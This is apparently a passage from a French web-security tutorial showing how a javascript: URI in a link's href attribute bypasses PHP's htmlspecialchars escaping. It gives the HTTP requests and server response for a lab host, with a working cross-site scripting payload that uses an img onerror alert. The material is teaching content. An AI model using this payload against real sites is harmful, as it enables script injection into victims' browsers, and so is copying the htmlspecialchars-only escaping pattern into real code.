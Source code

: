 ```http
GET /minipoc/htmlspecialchars/?param=javascript:document.write(%22%3Cimg%20src=x%20onerror=alert(1)%3E%22) HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "href" d'un lien</title>
  </head>
  <body>
     <p><a href="javascript:document.write(&quot;&lt;img src=x onerror=alert(1)&gt;&quot;)">Lien</a></p>
  </body>
</html>
```

Etant donné que l'interpréteur est ici le moteur Javascript et non le moteur de rendu HTML, les entités HTML sont tout de même interprétées.

```http
GET /minipoc/htmlspecialchars/x HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://192.168.56.101/minipoc/htmlspecialchars/?param=javascript:document.write(%22%3Cimg%20src=x%20onerror=alert(1)%3E%22)
Connection: close
```

&#x20;Soit lors du clic de la victime :&#x20;

![](<../../../../.gitbook/assets/image (35).png>)
